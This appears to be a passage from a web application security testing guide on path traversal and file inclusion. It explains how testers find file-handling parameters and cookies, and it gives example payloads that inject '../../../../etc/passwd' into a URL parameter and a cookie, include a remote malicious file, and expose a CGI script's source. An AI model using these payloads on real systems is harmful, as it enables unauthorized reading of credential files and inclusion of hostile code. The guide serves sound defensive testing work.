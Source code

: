 * Are there request parameters which could be used for file-related operations?
* Are there unusual file extensions?
* Are there interesting variable names?

```
http://example.com/getUserProfile.jsp?item=ikki.html
http://example.com/index.php?file=content
http://example.com/main.cgi?home=index.htm
```

* Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?

```
Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower
Cookie: USER=1826cc8f:PSTYLE=GreenDotRed
```
<br>


##### Testing Techniques

The next stage of testing is analyzing the input validation functions present in the web application. Using the previous example, the dynamic page called *getUserProfile.jsp* loads static information from a file and shows the content to users. An attacker could insert the malicious string "*../../../../etc/passwd*" to include the password hash file of a Linux/UNIX system. Obviously, this kind of attack is possible only if the validation checkpoint fails; according to the file system privileges, the web application itself must be able to read the file.


To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

```
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
```


For the cookies example:
```
Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```


It's also possible to include files and scripts located on external website.
```
http://example.com/index.php?file=http://www.owasp.org/malicioustxt
```


The following example will demonstrate how it is possible to show the source code of a CGI component, without using any path traversal characters.

```
http://example.com/main.cgi?home=main.cgi
```

The component called "*main.cgi*" is located in the same directory as the normal HTML static files used by the application.
